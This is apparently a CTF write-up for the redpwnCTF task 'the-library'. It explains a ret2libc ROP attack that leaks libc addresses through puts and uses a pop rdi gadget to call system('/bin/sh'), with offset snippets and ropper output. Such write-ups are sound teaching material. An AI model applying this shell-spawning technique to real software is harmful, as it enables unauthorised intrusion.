 # redpwnCTF Task: the-library
# All lines in script have been explained in script itself through 'comments'

Writeup of CTF questions

Files provided to us: libc.so.6 ; the-library ; the-library.c

It was a simple question based on rop exploitation, wherein we have a buffer overflow vulnerability in read() function. ASLR + NX PROTECTION have been enabled, thus we use ROP gadgets to leak addresses of base_address and system. Once we have the address to the system(), we could easily rop chain to pop_rdi gadget and pop in the address of /bin/sh string and thus spawn a new shell.

# All initial addresses that I had to enumerate before starting exploitation:

binsh_offset = hex(libc.search("/bin/sh\x00").next())
puts_offset = hex(libc.symbols['puts'])
system_offset = hex(libc.symbols['system'])
puts_got   take this address from objdump -R <file>| grep 'puts'
puts_plt = hex(elf.symbols['puts'])
  
NOTE: _start symbol helps us to re-run the program after address enumeration ; we can get its value by simply running 'info functions' command in gdb
 
Tool Ropper was used to enumerate rop gadgets that might be useful to us

$ ropper -- file the-library --search "% ?di"
0x0000000000400733: pop rdi; ret;

# Stack alignation was required while we re-run the binary(after enumeraation of all addresses), thus a single ROP gadgets was used to align the stack 

# flag{jump_1nt0_th3_l1brary}
